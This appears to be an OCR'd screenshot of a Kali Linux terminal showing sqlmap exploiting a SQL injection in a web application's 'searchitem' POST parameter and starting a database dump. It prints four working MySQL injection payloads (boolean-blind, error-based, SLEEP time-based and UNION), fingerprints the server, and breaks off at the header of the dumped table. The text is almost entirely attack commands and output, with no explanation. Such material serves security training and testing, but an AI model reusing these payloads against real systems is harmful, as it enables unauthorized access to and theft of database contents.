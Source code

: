 ```
┌──(kali㉿kali)-[~/work]
└─$ sqlmap -r testsearch.txt --dbms=mysql --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.12#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:09:03 /2022-01-25/

[10:09:03] [INFO] parsing HTTP request from 'testsearch.txt'
[10:09:03] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-3059' OR 5946=5946#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=testsearch' AND GTID_SUBSET(CONCAT(0x71716a6b71,(SELECT (ELT(4216=4216,1))),0x71626a7a71),4216)-- Pcyo

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=testsearch' AND (SELECT 3497 FROM (SELECT(SLEEP(5)))ymzA)-- bKkw

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=testsearch' UNION ALL SELECT NULL,NULL,CONCAT(0x71716a6b71,0x48746c527267656e6b4d665150467145646e56765555425769614679776e6a6747635a6b494b6d43,0x71626a7a71)#
---
[10:09:03] [INFO] testing MySQL
[10:09:03] [INFO] confirming MySQL
[10:09:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.0
[10:09:03] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[10:09:03] [INFO] fetching current database
[10:09:03] [INFO] fetching tables for database: 'db'
[10:09:03] [INFO] fetching columns for table 'post' in database 'db'
[10:09:03] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: <REDACTED>
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
```